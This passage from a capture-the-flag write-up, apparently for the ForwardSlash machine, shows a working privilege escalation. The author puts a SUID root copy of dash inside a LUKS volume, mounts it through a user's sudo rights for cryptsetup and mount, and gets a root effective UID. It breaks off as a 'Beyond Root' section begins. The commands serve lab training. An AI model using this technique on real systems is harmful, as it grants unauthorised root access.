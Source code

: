     Allocating group tables: done                            
    Writing inode tables: done                            
    Creating journal (1024 blocks): done
    Writing superblocks and filesystem accounting information: done



Now I'll mount the volume:



    root@kali# mount /dev/mapper/fsmal /mnt/



For a payload, I'll add a copy of `dash` and make it SUID:



    root@kali# cp /bin/dash /mnt/
    root@kali# chmod 4777 /mnt/dash 
    root@kali# ls -l /mnt/dash
    -rwsrwxrwx 1 root root 121464 Jul  3 21:57 /mnt/dash



Now I'll unmount and close it:



    root@kali# umount /mnt 
    root@kali# cryptsetup luksClose fsmal 



I'll move this to ForwardSlash using `scp` into `/dev/shm`. Now I'll use
the commands pain can run with `sudo` to mount the volume:



    pain@forwardslash:/dev/shm$ sudo /sbin/cryptsetup luksOpen mal.luks backup
    Enter passphrase for mal.luks: 
    pain@forwardslash:/dev/shm$ sudo /bin/mount /dev/mapper/backup ./mnt/



Now I'll just run the SUID binary:



    pain@forwardslash:/dev/shm$ mnt/dash -p
    # id
    uid=1000(pain) gid=1000(pain) euid=0(root) groups=1000(pain),1002(backupoperator)



## Beyond Root

All of Beyond Root here is focused on digging into different aspects of
the web server.

### IP / Username Blocking

I was surprised when I could create the admin account and then access
`/dev` so I wanted to check out the source. The page starts with:
